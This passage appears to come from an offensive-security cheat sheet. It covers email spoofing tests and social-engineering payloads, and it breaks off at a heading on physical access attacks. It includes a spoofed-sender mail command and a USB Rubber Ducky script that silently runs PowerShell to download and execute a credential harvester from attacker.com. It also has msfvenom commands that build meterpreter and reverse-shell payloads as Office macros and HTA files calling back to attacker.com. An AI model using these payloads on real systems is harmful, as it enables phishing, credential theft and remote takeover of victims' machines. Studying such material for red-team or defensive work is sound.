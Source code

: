 **Email Infrastructure**
```bash
# Check email security records
dig target.com TXT | grep -E "v=spf1|v=DMARC1"
dig _dmarc.target.com TXT
dig default._domainkey.target.com TXT

# Test email spoofing potential
echo "Testing SPF bypass" | mail -s "Test" -r "admin@target.com" target@victim.com

# Verify email deliverability
mail-tester.com # Web service for testing
```

#### Social Engineering Payloads

**USB Rubber Ducky Payloads**
```bash
# Install ducky script compiler
git clone https://github.com/hak5darren/USB-Rubber-Ducky.git
cd USB-Rubber-Ducky

# Basic credential harvester payload
cat > credential_harvest.txt << 'EOF'
DELAY 2000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/harvest.ps1')"
ENTER
EOF

# Compile payload
java -jar duckencode.jar -i credential_harvest.txt -o inject.bin
```

**Malicious Office Documents**
```bash
# Install msfvenom
sudo apt install metasploit-framework

# Create malicious macro payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker.com LPORT=4444 -f vba-exe -o payload.vba

# Create malicious HTA file
msfvenom -p windows/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f hta-psh -o malicious.hta

# Office document with embedded payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker.com LPORT=4444 -f vba -o macro.vba
```

## Physical Access Attacks
